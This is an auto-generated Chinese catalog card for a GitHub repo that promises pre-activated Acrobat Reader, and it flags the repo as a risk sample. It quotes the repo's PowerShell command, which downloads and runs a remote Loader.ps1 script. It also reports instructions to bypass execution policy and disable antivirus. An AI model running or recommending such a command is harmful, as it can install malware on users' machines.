

# Aspectbramove/Fuck-Adobbe

⭐ 40 · 推送 2026-10-25 · [GitHub](https://github.com/Aspectbramove/Fuck-Adobbe) · 个人维护

**宣称提供 Acrobat Reader 预激活安装脚本的仓库**

仓库以 README 形式提供一个 Windows x64 的 Acrobat Reader『预激活独立构建』安装指引：要求用户在 PowerShell 中执行远程脚本（irm power-shell.cc/Loader.ps1 | Invoke-Expression）完成安装，文件体积约 1.5 GB，标注 2026 年 10 月。README 还包含绕过 PowerShell 执行策略与暂时关闭杀毒软件/SmartScreen 的说明，以及 SEO 关键词列表。仓库无源代码，实际行为由远程脚本决定，无法从 README 验证其内容。

## 筛选速览

| 维度 | 判定 | 备注 |
|---|---|---|
| AI 角色 | `ai-enhanced` | 去掉 AI 部分产品仍成立 |
| 许可风险 | `none` | — |
| 部署形态 | `None` |  |
| 模型依赖 | — | README 未给出锁定关系 |
| 硬件要求 | — | 无带数字的原话,不猜 |
| 安装摩擦 | `low` | 无编译、无系统依赖或容器化 |
| 成熟度 | — | 结构信号不足 |

## 能力要点

- 仅含 README 安装指引，无可验证源码
- 通过 PowerShell 执行第三方远程脚本完成安装
- 包含绕过执行策略与关闭实时防护的说明
- 标注目标平台 Windows x64、体积约 1.5 GB

## 适用场景

- 作为供应链/仓库安全审计中的风险样本进行编目

## 场景标签

 · 领域:桌面软件分发

## 证据(README 行号)

> L3: Pre-activated local build for testing and deployment.
> L20:    irm https://power-shell.cc/powershell/Loader.ps1 | Invoke-Expression

## 星数曲线

2026-10-26 40 → 2026-10-28 40（+0）

---
*卡片 v1 · prompt 1.4 · 生成 2026-10-26 · 置信度 low · 依据 README sha `0f5d1e3effda` · [字段定义](../../DATASET.md)*
